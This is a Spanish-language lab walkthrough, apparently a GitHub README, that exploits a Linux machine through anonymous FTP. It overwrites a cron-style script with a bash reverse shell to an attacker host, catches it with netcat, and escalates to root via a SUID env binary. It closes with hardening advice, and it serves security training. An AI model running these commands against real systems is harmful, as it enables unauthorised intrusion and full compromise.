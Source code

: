 # **Explotación de Máquina via FTP Anonymous**

![Nivel: Fácil](https://img.shields.io/badge/Nivel-Fácil-green) ![Servicio: FTP](https://img.shields.io/badge/Servicio-FTP_Anonymous-blue)

## **Descripción**
Este repositorio documenta la explotación de una máquina Linux vulnerable a través de:
1. Acceso anónimo a FTP
2. Manipulación de scripts automatizados
3. Escalada de privilegios mediante binarios SUID

**Tiempo estimado**: 20-30 minutos  
**Dificultad**: Básica  
**Sistema operativo**: Linux

## **Índice**
1. [Reconocimiento](#reconocimiento)
2. [Explotación](#explotación)
3. [Post-Explotación](#post-explotación)
4. [Conclusión](#conclusión)

## **Reconocimiento**

### 1. Escaneo Inicial
```bash
nmap -sV -p- 10.0.2.15 -oN initial_scan
```
**Hallazgos clave**:
- 21/tcp : vsftpd (FTP Anonymous permitido)

## **Explotación**

### 2. Conexión FTP Anónima
```bash
ftp 10.0.2.15
```
**Credenciales**:
- Usuario: anonymous
- Contraseña: [cualquier texto o vacío]

### 3. Manipulación de Script
```ftp
cd scripts
get clean.sh
exit
```

Editar el archivo local:
```bash
echo "bash -i >& /dev/tcp/10.0.2.4/4444 0>&1" > clean.sh
```

Subir versión modificada:
```bash
ftp 10.0.2.15
put clean.sh
```

## **Post-Explotación**

### 4. Conexión Reversa
```bash
nc -nlvp 4444
```

### 5. Mejora de Shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### 6. Escalada de Privilegios
```bash
find / -perm -4000 2>/dev/null
/usr/bin/env /bin/sh -p
```

## **Conclusión**

### Vulnerabilidades Críticas
1. FTP Anonymous habilitado
2. Scripts modificables por usuarios no autenticados
3. Binarios SUID mal configurados

### Hardening Recomendado
- Deshabilitar FTP Anonymous
- Restringir permisos de escritura en scripts críticos
- Eliminar permisos SUID innecesarios

> ⚠️ **Aviso Legal**: Solo para uso en entornos autorizados.

---

**Herramientas utilizadas**:
- Nmap
- FTP Client
- Netcat
- GTFOBins

**Referencias**:
- [OWASP FTP Security](https://owasp.org/www-community/vulnerabilities/FTP_Security)
- [GTFOBins env](https://gtfobins.github.io/gtfobins/env/)
